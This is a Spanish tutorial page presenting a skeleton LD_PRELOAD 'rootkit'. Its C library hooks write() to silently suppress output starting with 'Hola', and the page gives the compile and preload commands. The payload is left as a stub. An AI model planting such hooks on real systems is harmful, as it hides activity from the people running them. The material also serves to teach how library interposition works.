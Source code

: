 # Mini tutorial de idea para crear un _rootkit_ para linux 

La idea principal es crear una biblioteca compartida en __C__ para suplantar la funcion  __write__ del
sistema. Utilizando  `LD_PRELOAD` que contiene una lista de objetos compartidos `ELF` especificados por el usuario.

Permite a los usuarios cargar estos objetos compartidos en el espacio de direcciones de un proceso antes que cualquier otra biblioteca compartida y antes de la ejecución del programa en sí.

### Sinopsis

```bash
export LD_PRELOAD=/path/to/candy.so:$LD_PRELOAD
```

###  Sinopsis de write

```cpp
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count); 
```

# Descripcion

Escribe hasta __count__ bytes desde el `buffet` almacenando `buf` en el archivo al que hace referencia 
el descriptor de archivo `fd`. 

También utilizaremos la función `dlsym()` para realizar una búsqueda de símbolo. El cual sería la función __write__ en la biblioteca compartida especificada por `RTLD_NEXT` el cual indica que se debe buscar en la siguiente biblioteca compartida la lista de carga.

### Puntero a Función

Todas las funciones de _C_ están en punteros de actualidad a un punto en la memoria del programa donde existe algún código. El uso principal de un puntero de función es proporcionar una "devolución de llamada" a otras funciones (o para simular clases y objetos).

La sintaxis de una función es:

```
returnType (* nombre) (parámetros)
```

# Codigo

```cpp
// Autor  : @demon_rip
// Nombre : candy

#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

ssize_t write(int fildes, const void *buf, size_t nbytes) {
  ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);
  ssize_t result;
  new_write = (ssize_t(*)(int, const void *, size_t))dlsym(RTLD_NEXT, "write");
  if (strncmp((const char *)buf, "Hola", strlen("Hola")) == 0) {
    result = nbytes;
    // La magia aqui ... ?
  } else {
    result = new_write(fildes, buf, nbytes);
  }
  return result;
}
```

> Nota: El compilador puede arrojar una advertencia  por la conversación de tipo pero todo bien.

### Compilación 

```sh
gcc -ldl candy.c -fPIC -shared -D_GNU_SOURCE -o candy.so 
```

`-ldl` : Esto enlaza la biblioteca dinámica (`libdl`). La biblioteca `libdl` proporciona funciones para cargar dinámicamente bibliotecas compartidas en tiempo de ejecución.

`-fPIC`: Esta opción genera código independiente de la posición (Position Independent Code). Es necesario para crear bibliotecas compartidas para que el código generado pueda ser utilizado en cualquier dirección de memoria.

`-shared`: Esta opción indica que se debe crear una biblioteca compartida en lugar de un ejecutable. Las bibliotecas compartidas son archivos que pueden ser cargados en tiempo de ejecución por otros programas.

`-D_GNU_SOURCE`: Define la macro _GNU_SOURCE_. Esta macro habilita características y extensiones específicas de GNU en las bibliotecas estándar de C. Es útil para utilizar funciones y características adicionales que no están disponibles en el estándar ANSI C.

# Créditos 

A `@ivam3` por el cual obtuve una face beta de este código.



{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %} 



 
